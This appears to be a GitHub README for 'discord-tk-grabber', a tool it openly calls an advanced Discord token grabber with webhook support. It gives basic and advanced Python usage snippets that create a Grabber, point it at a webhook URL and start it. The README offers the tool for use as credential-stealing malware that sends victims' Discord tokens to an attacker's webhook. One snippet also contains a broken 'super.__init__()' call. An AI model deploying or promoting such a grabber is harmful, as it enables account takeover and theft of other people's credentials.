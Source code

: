 # discord-tk-grabber
Advanced discord token grabber (with webhook support)

# basic usage
```python
grabber = Grabber()
grabber.add_webhook('webhook URL here')
grabber.start()

```

# advanced usage
```python

class Program(Grabber):
  def __init__(self):
    super.__init__()
    # do whatever you want here

  def start(self):
    # do whatever you want here

    super().start()

grabber = Grabber()
grabber.add_webhook('webhook URL here')
grabber.start()
```
